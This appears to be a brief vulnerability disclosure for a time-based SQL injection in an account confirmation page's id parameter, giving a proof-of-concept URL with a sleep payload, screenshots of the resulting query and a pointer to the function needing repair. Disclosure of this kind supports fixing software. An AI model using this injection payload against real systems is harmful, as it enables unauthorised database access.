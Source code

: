 poc

```
http://stu/account/confirm.php?id=12345678901234567890123456789012'+or+sleep(5)%23
```
![image-20230121222006342](https://wanan-1310031509.cos.ap-beijing.myqcloud.com/img/202301212220416.png)

final sql statement

![image-20230121023006473](https://wanan-1310031509.cos.ap-beijing.myqcloud.com/img/202301211436733.png)

Repair plan

framework/Accounts.php#userIdFromConfirmcode()

![image-20230121023335610](https://wanan-1310031509.cos.ap-beijing.myqcloud.com/img/202301211436528.png)

# 
